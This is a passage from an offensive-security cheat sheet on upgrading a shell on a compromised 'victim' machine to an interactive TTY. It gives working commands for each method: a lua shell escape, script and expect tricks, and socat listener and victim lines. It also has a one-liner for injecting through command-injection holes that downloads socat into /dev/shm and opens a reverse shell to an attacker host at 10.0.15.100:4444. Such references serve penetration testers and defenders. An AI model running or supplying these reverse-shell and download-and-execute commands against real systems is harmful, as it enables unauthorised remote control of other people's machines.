 ```python
lua -e "os.execute('/bin/sh')"
```

### Using "Script" to upgrade to a TTY

Upgrade from a basic shell to a bash TTY using `script`.

```bash
SHELL=/bin/bash script -q /dev/null
```

### Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

```bash
#Create a script called `sh.exp`

#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

### **Using socat**

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

#### socat one-liner

This one-liner can be injected wherever you can get command injection for an instant reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### &#xD;Using stty options&#xD;
